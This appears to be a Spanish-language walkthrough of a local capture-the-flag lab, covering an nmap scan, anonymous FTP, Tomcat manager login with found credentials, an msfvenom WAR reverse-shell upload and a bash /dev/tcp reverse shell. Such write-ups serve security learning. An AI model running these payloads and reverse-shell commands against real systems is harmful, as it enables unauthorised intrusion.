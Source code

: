 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![Pasted image 20250203124154](https://github.com/user-attachments/assets/5c2ff673-c307-4b2b-999f-7304362f0199)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203124223](https://github.com/user-attachments/assets/da475089-bcdd-438e-913c-488a8a3bb0a5)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250203124312](https://github.com/user-attachments/assets/ee8f0666-58ff-4578-80c7-036557fcf5c2)

```Bash
anonymous
```

![Pasted image 20250203124328](https://github.com/user-attachments/assets/92527238-17ca-494b-951c-ef3c8af0a9d5)

```Bash
'blank'
```

![Pasted image 20250203124340](https://github.com/user-attachments/assets/a4100623-3c73-4303-a895-fb0a204b11a1)

```Bash
ls
```

![Pasted image 20250203124409](https://github.com/user-attachments/assets/e16a42b2-9c7c-4258-8c1e-3f6e9a751557)

```Bash
get tomcat.txt
```

![Pasted image 20250203124434](https://github.com/user-attachments/assets/7cc3f2ad-beca-4453-89b6-5bebb273f8e4)

```Bash
cat tomcat.txt
```

![Pasted image 20250203124645](https://github.com/user-attachments/assets/07ac7123-592e-4c5b-a422-e27214918a87)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250204152455](https://github.com/user-attachments/assets/13ed0ee4-214a-48fc-9753-a3bf67bf1571)

Nos metemos en la web:

![[Pasted image 20250203124745.png]]

![[Pasted image 20250203125031.png]]


![[Pasted image 20250203124932.png]]



tomcat: s3cr3t

![[Pasted image 20250203125055.png]]

![[Pasted image 20250204144739.png]]

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![[Pasted image 20250204151401.png]]

Lo subimos:

![[Pasted image 20250204150907.png]]

![[Pasted image 20250204150933.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250204151015.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250204152406.png]]

Pinchamos en la shell subida:

![[Pasted image 20250204152912.png]]

Miramos en la shell:

![[Pasted image 20250204152129.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250204152103.png]]

Miramos la otra shell:

![[Pasted image 20250204152256.png]]

```Bash
whoami
```

![[Pasted image 20250204152315.png]]
